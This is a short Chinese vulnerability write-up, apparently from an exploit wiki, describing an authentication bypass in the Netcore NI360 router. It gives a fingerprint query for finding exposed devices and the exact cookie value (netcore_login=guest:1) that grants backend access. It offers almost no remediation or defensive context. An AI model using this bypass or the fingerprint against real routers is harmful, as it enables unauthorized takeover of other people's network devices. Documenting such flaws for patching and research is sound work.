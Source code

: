 # 磊科 NI360路由器 netcore_loginnetcore_login 认证绕过漏洞

## 漏洞描述

磊科 NI360路由器 存在认证绕过漏洞，通过添加特定的Cookie字段获取后台权限

## 漏洞影响

<a-checkbox checked>磊科 NI360路由器</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="Netcore"</a-checkbox></br>

## 漏洞描述

登录页面如下

![img](/assets/PeiQi-Wiki/img/image-20210609112109559.png)



添加 Cookie字段 : `netcore_login=guest:1`，刷新后登录后台

![img](/assets/PeiQi-Wiki/img/image-20210609175225486.png)

